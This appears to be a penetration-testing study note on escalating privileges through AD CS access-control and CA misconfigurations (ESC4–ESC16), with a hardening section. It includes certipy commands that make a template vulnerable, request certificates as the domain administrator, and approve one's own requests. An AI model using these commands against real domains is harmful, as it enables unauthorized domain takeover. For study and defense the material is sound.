

# 03 - AD CS Escalation: Access Control and CA Misconfiguration

## 1. Executive Summary

If no template is *directly* vulnerable, **access control over PKI objects** or **CA-level settings** often is. With write access to a template you can **make it vulnerable** (ESC4); with control over PKI/CA AD objects you can reconfigure the PKI (ESC5); a CA with the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag lets *any* template accept an attacker SAN (ESC6); CA-management rights let you approve requests or enable bad flags (ESC7); and RPC/DCOM enrollment without signing/encryption enables relay (ESC11) or weak request encryption (ESC16). These turn "I can't enroll anything useful" into domain admin.

## 2. Concept Overview

PKI lives in AD under `CN=Public Key Services,CN=Services,CN=Configuration`. **Templates, CAs, the NTAuthCertificates and Enrollment Services objects** all have ACLs. Misplaced `WriteDacl`/`WriteOwner`/`WriteProperty`/`FullControl` on these = control of issuance. The CA service itself has roles: **ManageCA** (admin) and **ManageCertificates** (officer/approver). Some ESCs are **CA settings**, not ACLs.

## 3. Enumeration

```bash
certipy find -u user@domain -p pw -dc-ip <dc> -vulnerable -stdout
# ESC4: template ACL writable by you
# ESC6: "User Specified SAN: Enabled" (EDITF_ATTRIBUTESUBJECTALTNAME2)
# ESC7: you have ManageCA / ManageCertificates on the CA
# ESC5: writable PKI AD objects (CA object, NTAuthCertificates, OIDs)
certutil -config "CA\Name" -getreg policy\EditFlags    # ESC6 flag check
```

## 4. Exploitation per ESC

- **ESC4 — write access to a template**: rewrite the template to be ESC1 (enable SAN, add Client Auth EKU, drop approval), enroll, then **restore** it.
  ```bash
  certipy template -u user@domain -p pw -template <Tmpl> -write-default-configuration   # make vulnerable
  certipy req ... -template <Tmpl> -upn administrator@domain
  certipy template ... -configuration <saved.json>                                      # restore
  ```
- **ESC5 — control of PKI AD objects**: e.g. write to `NTAuthCertificates` to add your own CA cert, or modify the CA object → forge a trusted issuer. Broad object takeover of the PKI.
- **ESC6 — `EDITF_ATTRIBUTESUBJECTALTNAME2` on CA**: every request can specify an arbitrary SAN regardless of template → ESC1 against any auth template.
  ```bash
  certipy req ... -template User -upn administrator@domain   # SAN honored due to flag
  ```
- **ESC7 — CA management rights**:
  - *ManageCA* → enable `EDITF_ATTRIBUTESUBJECTALTNAME2` (turn the CA into ESC6), or add yourself as a certificate officer.
  - *ManageCertificates* → **approve** your own pending request for a template requiring manager approval.
  ```bash
  certipy ca -u user@domain -p pw -ca <CA> -enable-template <Tmpl>     # ManageCA actions
  certipy ca ... -issue-request <reqid>                                # approve as officer
  ```
- **ESC11 — RPC enrollment without `IF_ENFORCEENCRYPTICERTREQUEST`**: relay NTLM auth to the CA's RPC (`ICertPassage`) endpoint (cousin of ESC8 over RPC) → request a cert as the relayed victim.
- **ESC16 — Security extension disabled on the CA** (CA-wide szOID-NTDS-CA-SECURITY-EXT suppression): like ESC9 but enforced at the CA → SID binding missing for all certs, enabling UPN-swap mapping abuse.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation / Persistence
- ESC5/ESC7 (ManageCA) give durable PKI control → repeatable issuance; ties into golden certificate ([[05 - AD CS Certificate Theft Golden Certificate and Persistence]]).

## 7. Defense & Hardening
1. Audit & tighten ACLs on **all** PKI objects (templates, CA, NTAuthCertificates, OID container) — remove non-admin write.
2. Disable `EDITF_ATTRIBUTESUBJECTALTNAME2` (ESC6); restrict CA roles (ManageCA/ManageCertificates) to PKI admins (ESC7); enforce RPC encryption (`IF_ENFORCEENCRYPTICERTREQUEST`) for ESC11.
3. Apply KB5014754 strong mapping (ESC16); monitor template/CA config changes + manual issuance.

## 8. Chaining Opportunities
- ESC7 ManageCA → ESC6 → ESC1 chain; ESC11 needs coercion ([[04 - AD CS NTLM Relay ESC8 and Coercion]]).
- ACL primitives overlap general AD ACL abuse: **[[17 - ACL Abuse]]** (A-36).

## 9. Related Notes
- **[[01 - AD CS Overview and Enumeration]]**, **[[02 - AD CS Escalation Vulnerable Template Misconfigurations]]**.
- A-36 ACL/relay: **[[17 - ACL Abuse]]**, **[[11 - NTLM Relay Attack]]**.

## 10. Tools
`certipy` (template/ca/req/auth), `Certify.exe`, `certutil`, `PSPKIAudit`, `ntlmrelayx` (ESC11).
